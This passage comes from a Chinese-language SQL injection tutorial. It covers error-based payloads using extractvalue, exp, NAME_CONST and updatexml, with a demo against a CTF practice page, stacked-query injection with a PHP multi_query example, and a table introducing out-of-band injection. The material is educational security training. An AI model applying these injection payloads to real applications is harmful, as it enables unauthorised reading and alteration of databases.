 #### [](#623-%E5%85%B6%E5%AE%83%E6%98%BE%E9%94%99%E6%B3%A8%E5%85%A5)6.2.3 其它显错注入

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```sql<br>and extractvalue(1,concat(0x7e,(select database())))<br>//1105 - XPATH syntax error: '~sectest', Time: 0.000000s<br><br>and exp(~(select * from (select user())a)) // mysql5<br><br>union select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))a;<br>//1060 - Duplicate column name '5.7.23', Time: 0.000000s<br>``` |

#### [](#63-demo)6.3 Demo

[http://ctf5.shiyanbar.com/web/baocuo/index.php](http://ctf5.shiyanbar.com/web/baocuo/index.php)

**payload**

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```sql<br>updatexml(1,concat(0x7e,(version())),0)<br><br>http://ctf5.shiyanbar.com/web/baocuo/index.php<br>$sql="    select * from users where username='' and updatexml /*' and password='*/(1,concat(0x7e,(version())),0) or '1' "<br>``` |

## [](#7-%E5%A0%86%E5%8F%A0%E6%B3%A8%E5%85%A5)7 堆叠注入

一堆 SQL 语句 (多条) 一起执行

在 MySQL 中，主要是命令行中，每条语句结尾加 `;` 表示语句结束。这样可以考虑多条 SQL 语句一起使用

问题

堆叠注入和 UNION 注入的差别是？

UNION 执行的语句类型是有限的，只可以用来执行查询语句

而堆叠注入可以执行任意语句

注意：场景少；但是**威力大**

并不是每一个环境下都可以执行，很可能受 API 或者数据库引擎不支持的限制，同时权限不足也是面临的主要问题

在真实环境中：

1.  通常只返回一个查询结果，因此，堆叠注入第二个语句产生错误或者结果只能被忽略，我们在前端界面是无法看到返回结果的
2.  在使用堆叠注入之前，我们也是需要知道一些数据库相关信息的，例如表名，列名等信息

在 PHP - MySQL 中相关的 API

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>``` | ```php<br>$query  = "SELECT CURRENT_USER();";<br>$query .= "SELECT Name FROM City ORDER BY ID LIMIT 20, 5";<br><br>/* 批量执行查询 */<br>if ($mysqli->multi_query($query)) {<br>    do {<br>        /* store first result set */<br>        if ($result = $mysqli->store_result()) {<br>            while ($row = $result->fetch_row()) {<br>                printf("%s\n", $row[0]);<br>            }<br>            $result->free();<br>        }<br>        /* print divider */<br>        if ($mysqli->more_results()) {<br>            printf("-----------------\n");<br>        }<br>    } while ($mysqli->next_result());<br>}<br>``` |

## [](#8-oob-%E6%B3%A8%E5%85%A5)8 OOB 注入

| 攻击类别 | SQL 注入类型 | 说明  |
| --- | --- | --- |
| INBAND | 报错注入、UNION 注入 | 在应用内直接获取数据，通用过应用返回或者报错直接提取数据 |
| INFERENCE | 布尔注入、时间盲注 | 通过应用的非直接数据反馈进行推断 |
| OUT OF BAND | OOB SQL 注入 | 通过其它信道获取数据 |
